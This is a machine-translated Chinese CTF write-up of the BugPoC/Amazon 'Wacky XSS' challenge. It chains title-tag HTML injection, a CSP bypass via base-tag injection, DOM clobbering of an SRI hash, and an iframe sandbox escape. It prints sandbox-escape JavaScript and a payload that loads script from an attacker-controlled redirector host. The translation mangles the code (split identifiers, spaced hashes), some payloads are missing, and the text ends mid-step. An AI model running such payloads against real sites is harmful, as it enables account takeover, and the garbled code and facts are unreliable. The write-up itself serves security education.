

# 与亚马逊的古怪 XSS 挑战

> 原文：<https://infosecwriteups.com/wacky-xss-challenge-with-amazon-by-bugpoc-d10d43d7707c?source=collection_archive---------1----------------------->

嘿，欢迎来到古怪 XSS 挑战赛。在整篇文章中，我会尽量不局限于我特别使用的有效载荷或步骤，但也会给你们提供一个成功完成这一挑战的思考过程的前排座位。

挑战赛在 https://wacky.buggywebsite.com/[举行，于美国东部时间 11 月 9 日晚上 10 点结束。](https://wacky.buggywebsite.com/)

为了便于解释，我将挑战分成几个部分:

我们开始吧

# **1。最初的立足点 html 注入**

当你进入挑战时，你会看到这个输入框，经过一番思考后，我意识到它只有 2 页，外加几个脚本。

主页

我们的文本反映在内部的 iframe 页面上，简单地查看框架源代码就可以发现我们的文本在两个地方得到了反映。

1.  标题标签
2.  每个字母都用不同字体的无聊文本

一个非常简单的有效载荷就可以揭示出 title 标签容易受到 html 注入的攻击

由于一种叫做内容安全策略的防御机制，我们的脚本显然无法执行。所以让我们进入下一步。

我们进来了，让游戏开始吧。

# 2.智胜 CSP

转到“网络”选项卡，查看页面标题:

> **内容-安全-策略:**script-src ' nonce-ucbgymcgoplw ' ' strict-dynamic '；frame-src ' self '；object-src“无”；

这里需要关注的事情很少:

1.  nonce——这使得在我们将随机生成的 nonce 值作为脚本头的一部分之前，无法呈现任何 javascript。因为这在每次页面重新加载时都会改变，我们无法预先预测。
2.  frame-src——它使用诸如和之类的元素来指定嵌套浏览上下文加载的有效源。[更多在此](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-src)

如果我们得到 nonce，我们可以运行任何脚本。所以，很自然地，首先我们要试着泄露它。有几个关于这方面的资源，但不幸的是没有一个真正为我们工作。所以没有被打败，只是把这个放在一边，我试着四处打探一下。

[*https://csp-evaluator.withgoogle.com/*](https://csp-evaluator.withgoogle.com/)*——因为我们喜欢将事情自动化*

在此处输入您的 csp，我们会得到一个严重程度很高的错误

> **基-乌**【失踪】
> 
> 缺少 base-uri 允许注入基本标记。它们可用于设置攻击者控制的域的所有相对(脚本)URL 的基本 URL。可以设置为‘无’或者‘自’吗？

**那么什么是 base-uri 或者 base 标签呢？**

假设网页有一个 html 标签 *< xxx src=/path >，*换句话说，每当使用相对路径而不是完整的 url 时，页面会以*www.origin/path*的形式完成此操作，但是如果存在基本标签(例如`<base target="_blank" href="https://example.com/">`)。然后，不管它在哪个页面上，它都会解析为 https://*example.com/path*。[阅读更多](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base)。

所以让我们寻找所有的东西都从相对路径加载:

1.  script.setAttribute('src '，' files/analytics/js/frame-analytics . js ')；
2.  <”movie.mp4">

所以我们有两种情况，我们可以强迫页面加载我们的文件。

在第二种情况下，因为类型是 mp4，你可以加载任意的 mp4 并导致 ***远程文件包含*** 但这不是我们在这里的动机。

因此，除非我们在 chrome 的视频解析库中发现漏洞并加载恶意视频，否则我们无法真正引发 XSS。

现在，首先—这里应用了一种称为**子资源完整性**的防御。

*为什么这是一件大事？*
因为它加载脚本内容的哈希值，并将其与硬编码的哈希值进行比较，所以即使我们能够导入自己的脚本，我们也不能将其更改为开发人员引入的真实脚本之外的任何内容。[更多在此](https://w3c.github.io/webappsec-subresource-integrity/)。

当前有效载荷:

这里我使用的是 bugpoc 的[模拟端点](https://bugpoc.com/testers/other/mock)和[灵活重定向器](https://bugpoc.com/testers/other/redir)，因为这比在 https 服务器上托管一个文件并不断对其进行修改和定义文件头要容易得多。

看起来像…

显然，我们不能让子资源完整性成为我们的绊脚石。

# 3.破坏子资源完整性

黑客最可怕的噩梦——散列函数。

由于子资源被散列并与硬编码值进行比较，我们实际上只有 3 种选择:

1.  在跳过验证的 SRI 实现中找到一个异常。
2.  使用相同的哈希创建不同的恶意脚本。
3.  更改我们与之比较的值。

自谷歌 Chrome 49.0.2623.75 修补 CVE-2016–1636 以来，没有任何已知的漏洞影响该库。所以第一选择是不可能的。

我们都知道哈希冲突的存在。但只是理论上的。所以，我也排除了第二种选择。

因此，我们只剩下第三种选择，这似乎也是不可能的。*或者是？*

## 多姆奋力营救！！！

下面是来自页面源代码的一个片段:

JavaScript 开发人员常用的模式是:

*var someObject = window . someObject | | { }；*

如果你能控制页面上的一些 HTML，你可以用一个 DOM 节点，比如一个锚来破坏 someObject 引用……”

这个在这里[很好解释](https://portswigger.net/web-security/dom-based/dom-clobbering)。

但是常见的有效载荷有:

不会在这里删除它，因为因为我们也使用了 base tag，所以它被修改为

> sha256-www.redir.com/d8Ic1uV……….d12CUZbfm8czJw=

代替

> sha 256-d 8 IC 1 uv 7 I……wd 12 cuz BFM 8 czjw =

经过一番阅读，我最终制定了另一个有效载荷——也可以在这里找到。

所以到目前为止我们的有效载荷是:

> <output id="fileIntegrity">S7 ukmoqthwrlejgnjpzfhm 0 yhrdeczffe 0 zjasrro 0 u =</output>

我们基本上已经声明了一个全局变量(它覆盖了硬编码的变量):
*file integrity . value = the _ hash _ of _ our _ file//你可以在控制台*中尝试一下

有几种方法可以获得散列值，但是输入错误的散列值会在控制台显示正确的散列值，所以这是最快的方法。

由于 iframe 沙盒，我们现在还不能弹出警报，但是继续，尝试在您的 js 文件中包含 console . log(" hacked ")；)你值得一些血清素。

拦截了一条来自:SRI to:iframe-sandbox//第 4 章-阻止我们的最后一次绝望尝试

# 4.打破沙盒

我们的挑战是显示一个警告框，如果你看这里

> //创建沙盒 iframe
> analytics frame = document . createelement(' iframe ')；
> analytics frame . set attribute(' sandbox '，'**allow-scripts allow-same-origin**')；
> analytics frame . set attribute(' class '，' invisible ')；
> document . body . appendchild(analytics frame)；

因为我们的脚本加载在 iframe 中，为了能够显示一个警告框，我们需要一个属性 *allow-modal* ，这里没有。

不要再谷歌 iframe 沙盒旁路了，你不会找到任何有价值的东西，但是如果你去[这里](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe)并向下滚动。您将看到一条警告消息。

> **关于沙盒的注意事项:**
> 
> 当嵌入的文档与嵌入的页面具有相同的原点时，**强烈建议**不要同时使用`allow-scripts`和`allow-same-origin`，因为这会让嵌入的文档删除`sandbox`属性——这并不比完全不使用`sandbox`属性更安全。

我们的脚本与沙盒的原始 iframe。

因此，我们必须编写一个脚本，删除 iframe 并用一个没有限制的 iframe 替换它。你跟着吗？这听起来很容易，但实际上这方面的信息并不多。

[Dusekdan](https://github.com/dusekdan/RandomSecurity/tree/master/iframeSandboxDiscouragedCombination) 为我们提供了这方面的概念验证——遗憾的是，它真的不能马上为我们工作，所以下面是我做了一些调整的代码(我没有删除这次演示的一些原始代码，因为它提供了很好的可视化效果):

> const illegal code =()= > {
> alert("您应该看不到我，因为原始 iframe 没有' allow-modals '。尽管 iframe 有 allow-scripts 和同源。创建了一个没有沙盒属性的新 iframe 我就在这里了。”);
> //遗憾的是，这无论如何都无法启动
> }
> 
> const escape =()= > {
> document . body . innertext = " Loaded into a frame，"；
> 
> let parent = window.parent
> let container = parent . document . getelementsbytagname(" iframe ")[0]；
> if(parent . document . getelementsbytagname(" iframe ")[0]！= null) {
> //重新创建并插入一个没有沙盒属性的 iframe，
> //按照我们的规则玩。
> let replacement = parent . document . createelement(" iframe ")；
> replacement . set attribute(" id "，" escaped already ")；
> //由于
> //frame-src self csp，我们不再使用 src 到这个脚本，一个干净的解决方法是在脚本标签
> 中输入数据，让 g = document . createelement(" script ")；
> g . innerhtml = " alert(origin)"；
> replacement . appendchild(g)；
> parent . document . body . append(替换)；
> 
> //移除原 iframe(避免无限循环)
> container . parent node . Remove child(container)；
> 
> //else 语句中的代码对我们不起作用，因为我们没有再次打开这个脚本//
> } else {
> illegal code()；
> }
> }
> 
> escape()；

我们从 iframe 内部转到父文档，选择标签，然后重新创建一个 iframe，但没有沙箱属性，并在其中添加了我们的小脚本。

所以通过 bugpoc 转到 [*模拟端点*](https://bugpoc.com/testers/other/mock) 并保存这个脚本，然后转到 [*灵活重定向器*](https://bugpoc.com/testers/other/redir) 并在那里粘贴链接，并获得要插入到 base 标记中的 url。

不要忘记添加标题

> 访问控制允许来源:*

我们的有效载荷现在终于:

> https://zu2i14sjykqz.redir.bugpoc.ninja/><output id = file integrity>S7 ukmoqthwrlejgnjpzfhm 0 yhrdeczffe 0 zjasrro 0 u =</output>

我们的 payload^

# 5.自动输入该有效载荷

但是说服受害者在他的网页上输入这个有点过分了。

如果你只是去检查元素，你会看到我们的有效载荷 iframe 的 url。

将链接复制并粘贴到新选项卡中。

**它不起作用，因为页面需要加载到 iframe 中。**

让我们最后一次看代码:

> //验证我们是否在 iframe
> if(window . name = = ' iframe '){

所以让我们最后一次为[做一些脚本:](https://www.youtube.com/watch?v=BPgEgaPk62M)

> <正文>
> 
> 点击按钮开始攻击